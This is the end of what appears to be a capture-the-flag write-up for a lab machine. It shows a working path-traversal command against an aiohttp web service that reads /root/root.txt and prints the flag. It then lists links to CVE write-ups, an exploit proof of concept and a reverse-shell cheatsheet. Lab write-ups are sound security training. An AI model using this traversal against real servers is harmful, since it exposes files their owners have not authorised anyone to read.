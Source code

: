 I don't see any index.html that correlates with the one we are searching, maybe rosa doesn't have the sufficient permissions to read the web app's directory, makes sense.

So, let's start trying, first I need to get the name of the first folder. I will try assets first, but I could try sources, static...

I finally get it:
```
rosa@chemistry:~$ curl -s --path-as-is http://localhost:8080/assets/../../../../../../root/root.txt
32940374bd93ce016628d888347462eb
```


# Links used
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346

https://crackstation.net/

https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh

https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/#gsc.tab=0

https://book.hacktricks.xyz/es/pentesting-web/file-upload

https://github.com/Ignitetechnologies/Linux-Privilege-Escalation

https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

https://docs.aiohttp.org/en/stable/

